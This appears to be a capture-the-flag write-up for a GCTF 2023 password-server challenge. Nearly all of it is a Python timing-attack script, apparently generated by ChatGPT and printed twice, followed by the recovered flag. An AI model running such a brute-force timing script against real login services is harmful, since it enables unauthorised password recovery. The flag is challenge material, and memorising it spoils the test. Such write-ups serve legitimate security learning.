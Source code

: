 password server timing attack
chat gpt code
import socket
import string
import time

def attempt_password(s, guess):
    start_time = time.time()
    s.sendall((guess + "\n").encode())  # Send guess with newline
    response = s.recv(1024)
    end_time = time.time()
    return end_time - start_time, response.decode()

def main():
    HOST = 'chal2.gryphons.sg'
    PORT = 10002
    CHARSET = string.ascii_lowercase + string.digits
    PASSWORD_LENGTH = 5
    MAX_ATTEMPTS = 2800
    TIME_THRESHOLD = 0.1  # Threshold for time increase

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.recv(1024)  # Initial read for any prompts or instructions

        password = ''
        attempt_counter = 0

        while len(password) < PASSWORD_LENGTH and attempt_counter < MAX_ATTEMPTS:
            base_time, best_char = None, None

            for char in CHARSET:
                attempt_counter += 1
                guess = password + char + 'X' * (PASSWORD_LENGTH - len(password) - 1)
                response_time, server_response = attempt_password(s, guess)

                # Print the server response for every other attempt

                print(f"Attempt {attempt_counter}: Server response: {server_response}")

                if base_time is None or response_time > base_time + TIME_THRESHOLD:
                    base_time, best_char = response_time, char

                if attempt_counter >= MAX_ATTEMPTS:
                    break

            if best_char:
                password += best_char
                print(f"Current password guess: {password}")

        if len(password) == PASSWORD_LENGTH:
            print(f"Final password: {password}")
        else:
            print("Failed to guess the password within the attempt limit.")

if __name__ == "__main__":
    main()

password server timing attack
chat gpt code
import socket
import string
import time

def attempt_password(s, guess):
    start_time = time.time()
    s.sendall((guess + "\n").encode())  # Send guess with newline
    response = s.recv(1024)
    end_time = time.time()
    return end_time - start_time, response.decode()

def main():
    HOST = 'chal2.gryphons.sg'
    PORT = 10002
    CHARSET = string.ascii_lowercase + string.digits
    PASSWORD_LENGTH = 5
    MAX_ATTEMPTS = 2800
    TIME_THRESHOLD = 0.1  # Threshold for time increase

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.recv(1024)  # Initial read for any prompts or instructions

        password = ''
        attempt_counter = 0

        while len(password) < PASSWORD_LENGTH and attempt_counter < MAX_ATTEMPTS:
            base_time, best_char = None, None

            for char in CHARSET:
                attempt_counter += 1
                guess = password + char + 'X' * (PASSWORD_LENGTH - len(password) - 1)
                response_time, server_response = attempt_password(s, guess)

                # Print the server response for every other attempt

                print(f"Attempt {attempt_counter}: Server response: {server_response}")

                if base_time is None or response_time > base_time + TIME_THRESHOLD:
                    base_time, best_char = response_time, char

                if attempt_counter >= MAX_ATTEMPTS:
                    break

            if best_char:
                password += best_char
                print(f"Current password guess: {password}")

        if len(password) == PASSWORD_LENGTH:
            print(f"Final password: {password}")
        else:
            print("Failed to guess the password within the attempt limit.")

if __name__ == "__main__":
    main()
![image](https://github.com/SoraAurora/Writeups_GCTF2023/assets/91508322/dce51673-64bc-4213-822c-8ce9913632e2)

Flag: GCTF23{t!min9_4TT4cks_aR3_sO_Co0L}

  
